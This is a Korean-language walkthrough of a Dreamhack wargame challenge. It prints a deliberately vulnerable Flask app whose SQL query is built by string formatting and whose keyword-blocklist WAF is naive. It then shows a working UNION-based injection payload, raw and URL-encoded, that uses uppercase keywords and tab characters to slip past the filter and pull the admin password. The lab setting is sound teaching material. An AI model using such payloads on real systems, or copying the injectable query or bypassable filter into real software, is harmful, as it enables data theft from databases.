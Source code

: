 # sql injection on bypass WAF

- **Category** : Web
- **Level** : 1

    [sql injection on bypass WAF](https://dreamhack.io/wargame/challenges/415)

## 문제 설명
- 이 문제는 SQL Injection 취약점이 존재하는 웹 애플리케이션을 대상으로 한다

- **WAF (Web Application Firewall)** 가 적용되어 있어, 일반적인 SQL Injection이 차단되어 있다.

- 이번 문제에서는 WAF를 우회하여 SQL Injection을 발생시켜 플래그를 획득하는 것을 목표로 한다


## 해설

### 코드 해석

#### **app.py**

```python
import os
from flask import Flask, request
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'users')
mysql = MySQL(app)

template ='''
<pre style="font-size:200%">SELECT * FROM user WHERE uid='{uid}';</pre><hr/>
<pre>{result}</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>
'''

keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data:
            return True

    return False


@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        if check_WAF(uid):
            return 'your request has been blocked by WAF.'
        cur = mysql.connection.cursor()
        cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
        result = cur.fetchone()
        if result:
            return template.format(uid=uid, result=result[1])
        else:
            return template.format(uid=uid, result='')

    else:
        return template


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

1. WAF 필터링

    ```python
    keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/']
    ```

   * 사용자 입력에 위 키워드가 포함되면 True값을 반환하여 요청이 차단된다

2. SQL Query

    ```sql
    SELECT * FROM user WHERE uid='{uid}';
    ```

    * 입력 값은 위 쿼리에 직접 삽입되어 SQL Injection 취약점이 발생한다

3. 결과 출력

    ```python
    result = cur.fetchone()
        if result:
            return template.format(uid=uid, result=result[1])
        else:
            return template.format(uid=uid, result='')
    ```

    * 쿼리 결과의 두 번째 값(result[1])이 HTML 템플릿에 표시된다

    * 결과 값이 없다면 아무것도 출력하지 않는다

#### **init.sql**

```sql
CREATE DATABASE IF NOT EXISTS `users`;
GRANT ALL PRIVILEGES ON users.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `users`;
CREATE TABLE user(
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null
);

INSERT INTO user(uid, upw) values('abcde', '12345');
INSERT INTO user(uid, upw) values('admin', 'DH{**FLAG**}');
INSERT INTO user(uid, upw) values('guest', 'guest');
INSERT INTO user(uid, upw) values('test', 'test');
INSERT INTO user(uid, upw) values('dream', 'hack');
FLUSH PRIVILEGES;
```

1. db 형태
   
   코드를 분석해보면 DB의 형태는 `user`테이블에 `idx`, `uid`, `upw`라는 컬럼이 존재하며 각 컬럼의 값은 다음과 같다

   **user**
   | idx |  uid  |      upw     |
   |-----|-------|--------------|
   |  0  | abcde |     12345    |
   |  1  | admin | DH{**FLAG**} |
   |  2  | guest |     guest    |
   |  3  | test  |     test     |
   |  4  | dream |     hack     |

### 실습

문제 화면

![page](img/page1.png)

uid에 값을 입력하면 결과값이 출력되는 구조이다

uid에 `guest`값을 넣으면

![guest](img/page2.png)

`guest`가 출력된다

이번엔 uid에 `dream`을 넣어보자

![dream](img/page3.png)

DB를 보면 `hack`이 나올 것 같았지만 `dream`이 나온다

이유는 `result`가 출력될때 결과 값의 두 번쩨를 출력해주는데 결과 값의 리스트는 [idx, uid, upw]이기 때문에 두 번째 값인 uid가 출력된다

#### 취약점 분석

1. 필터링 우회
   
   - 명령어
     - 코드를 보면 소문자만 필터링 되고있기 때문에 대문자로 입력시 필터링되지 않는다

     - EX. `Union`, `UNION`

   - 공백
     - 공백은 주석으로 우회할 수 있지만 주석 기호가 필터링 된다

     - 공백이나, 주석 대신 tab으로 우회가 가능하다

2. 페이로드
   
   위에서 설명한 우회 방법으로 페이로드를 짜보면 다음과 같다

   ```sql
   'Union    Select  1,   (Select    upw From    user    Where   uid='ADMIN'),   1;--
   ```

   - 공백 대신 `tab` 사용
  
   - 명령어에 대문자를 섞어 사용
  
   - 이전 select 문에서 **3**개 컬럼을 반환하므로 union 연산도 3개 값 반환
  
   - `result`에서 두 번째 값을 출력하므로 두 번째 값에 원하는 결과 값을 **select**

   - 입력값 뒤에 오는 것들을 `--`으로 주석처리

3. 실행 결과

    ![result1](img/result1.png)

    실행을 해보면 WAF에 의해 차단되었다고 한다

    이유는 HTML의 입력란에 페이로드를 넣으면 tab을 단순 공백으로 인식하기 때문이다

    그래서 tab을 url인코딩을 하여 url에 직접 넣어줘야 한다

    ##### url인코딩한 페이로드:
    ```url
    'Union%09Select%091,(Select%09upw%09From%09user%09Where%09uid='ADMIN'),%091;--
    ```

    - `tab`을 url인코딩 하면 %09

    - 나머지 기호들은 url에 넣어주면 자동으로 인코딩 된다

    인코딩한 결과로 url에 직접 넣어주면

    ![url_img](img/url.png)

    플래그가 출력되는걸 확인할 수 있다